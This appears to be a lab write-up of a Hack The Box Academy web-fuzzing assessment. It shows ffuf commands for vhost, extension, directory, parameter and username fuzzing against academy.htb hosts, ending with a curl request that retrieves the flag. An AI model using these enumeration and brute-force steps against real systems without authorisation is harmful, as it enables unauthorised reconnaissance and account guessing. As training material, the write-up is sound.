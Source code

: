 # Skills Assessment - Web Fuzzing

### Run a sub-domain/vhost fuzzing scan on '\*.academy.htb' for the IP shown above. What are all the sub-domains you can identify? (Only write the sub-domain name)



Subdomain fuzzing didn't lead to any results. Ffuf ran for over 30 min and ended up returning just errors. You might want skip to vhost fuzzing and save some time :thumbsup:

{% code title="Subdomain fuzzing" overflow="wrap" %}
```shell
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.academy.htb/
```
{% endcode %}

With vhost fuzzing I notice a pattern, so I decided to add the flag `-fs 985` to see if I catch something interesting .

{% code title="VHost fuzzing" overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:46699 -H 'Host: FUZZ.academy.htb' -fs 985
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we successfully enumerate three VHosts!

### Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?



{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://test.academy.htb:46699/indexFUZZ 

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://archive.academy.htb:46699/indexFUZZ 

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://faculty.academy.htb:46699/indexFUZZ 
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### One of the pages you will identify should say 'You don't have access!'. What is the full page URL?

{% hint style="info" %}
Note: the port changed to 33056 because I had to reset the target :smile:
{% endhint %}

In order to find the correct answer I had to fuzz each subdomain and their respective extensions.

To find the correct page I used the following command:

{% code overflow="wrap" %}
```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:33056/FUZZ -ic -recursion -recursion-depth 1 -e .php7 -v
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?

#### Get method

{% code overflow="wrap" %}
```sh
fuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7?FUZZ=key -fs 774
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption><p>user parameter found</p></figcaption></figure>

#### Post method

{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption><p>user and username parameter found</p></figcaption></figure>

And with the Post method we fuzzed two parameters, user and username

### Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?

{% hint style="info" %}
To complete this challenge we have to user a username [list](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/malenames-usa-top1000.txt)
{% endhint %}



{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Usernames/Names/malenames-usa-top1000.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -v -fs 781

```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>Username found</p></figcaption></figure>

Now to see the content of the page we use the curl command to retrieve the HTML code

{% code overflow="wrap" %}
```sh
curl http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'username=HARRY' 'Content-Type: application/x-www-form-urlencoded'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption><p>Flag found</p></figcaption></figure>

As you can see we found the last flag!
